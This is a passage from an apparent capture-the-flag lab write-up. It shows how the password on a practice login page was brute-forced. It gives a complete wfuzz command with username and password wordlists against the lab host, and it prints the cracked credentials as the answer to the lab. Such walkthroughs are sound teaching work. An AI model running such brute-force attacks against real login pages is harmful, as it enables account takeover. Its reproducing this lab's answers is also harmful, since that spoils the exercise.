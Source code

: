 We can see that the page data is submitted as a POST request. We can also see the name of the variables that store the value provided in the form. Using these details we can use `wfuzz` to try and brute force the password.

**Note**: Similar to the Day 3 task we could also use Hydra to perform the attack.  
[How to use Hydra to brute force login forms.](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)

```bash
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.67.1/login.php -d "username=FUZZ&password=FUZ2Z"
```

[A Detailed Guide on Wfuzz - Hacking Articles](https://www.hackingarticles.in/a-detailed-guide-on-wfuzz/)

![Fuzzed Output|600](images/thm-aoc-2023-day-1-4/portal-7.png)

### Questions

**1. What is the correct username and password combination? Format username:password**

> isaias:Happiness

**2. What is the flag?**

On successful login, we are presented with an Inbox. We can see that there are 3 emails in the inbox. The subject of the 2nd email particularly looks interesting.

![Email Portal|600](images/thm-aoc-2023-day-1-4/portal-8.png)
